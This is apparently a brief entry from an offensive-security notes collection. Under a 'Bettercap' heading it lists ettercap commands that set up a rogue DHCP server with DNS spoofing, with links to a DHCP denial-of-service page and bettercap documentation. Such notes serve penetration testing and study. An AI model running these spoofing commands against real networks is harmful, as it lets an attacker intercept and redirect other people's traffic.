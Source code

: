 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - sniffing-and-spoofing
  - bettercap
---
```

# Bettercap

```
$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:<IP_pool>/<subnet_mask>/<rouge_dns_server_IP>

$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:192.168.0.20-25/255.255.255.0/8.8.8.8
```

---
## References

### Backlinks

- [[Denial of Service|Denial of Service: DHCP]]

### Bettercap

- [Bettercap Modules: DHCPv6](https://www.bettercap.org/modules/ethernet/spoofers/dhcp6spoof/)